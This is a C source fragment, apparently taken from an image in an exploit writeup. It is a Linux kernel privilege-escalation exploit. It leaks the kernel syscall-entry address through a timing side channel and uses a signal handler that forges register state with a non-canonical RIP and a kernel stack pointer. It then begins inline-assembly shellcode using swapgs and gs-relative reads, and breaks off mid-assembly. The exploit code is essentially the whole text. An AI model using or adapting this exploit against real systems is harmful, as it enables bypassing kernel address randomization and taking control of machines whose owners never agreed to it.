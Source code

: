 ```c
#define ITERATIONS 100
#define ARR_SIZE (SCAN_END - SCAN_START) / STEP

uint64_t leak_syscall_entry(void)
{
    uint64_t data[ARR_SIZE] = {0};
    uint64_t min = ~0, addr = ~0;

    for (int i = 0; i < ITERATIONS + DUMMY_ITERATIONS; i++)
    {
        for (uint64_t idx = 0; idx < ARR_SIZE; idx++)
        {
            uint64_t test = SCAN_START + idx * STEP;
            syscall(104);
            uint64_t time = sidechannel(test);
            if (i >= DUMMY_ITERATIONS)
                data[idx] += time;
        }
    }

    for (int i = 0; i < ARR_SIZE; i++)
    {
        data[i] /= ITERATIONS;
        if (data[i] < min)
        {
            min = data[i];
            addr = SCAN_START + i * STEP;
        }
    }

    return addr;
}

size_t page[0x1000 / 8];
size_t kaddr;
size_t page_fault;
void handler_trap(int signum, siginfo_t *info, void *ucontext)
{
    ucontext_t *uc;

    uc = ucontext;

    for (int i = 0; i < 0x10; i++)
        uc->uc_mcontext.gregs[i] = 0x0101120067UL;

    uc->uc_mcontext.gregs[REG_RIP] = 0x0000800000000000UL;
    uc->uc_mcontext.gregs[REG_RCX] = 0x0000800000000000UL;
    uc->uc_mcontext.gregs[REG_R11] = 0x00246;
    uc->uc_mcontext.gregs[REG_EFL] = 0x00246;
    uc->uc_mcontext.gregs[REG_RSP] = kaddr + 0x102f030;
    PAUSE;
}

void shellcode()
{
    asm(".intel_syntax noprefix;"
        "swapgs;"
        "mov rdi, 69500000;"
        "mov rdx, 0x3f8;"

        "b: mov rcx, 0x8;"
        "mov rax, %gs:[rdi];"
        "a:"
```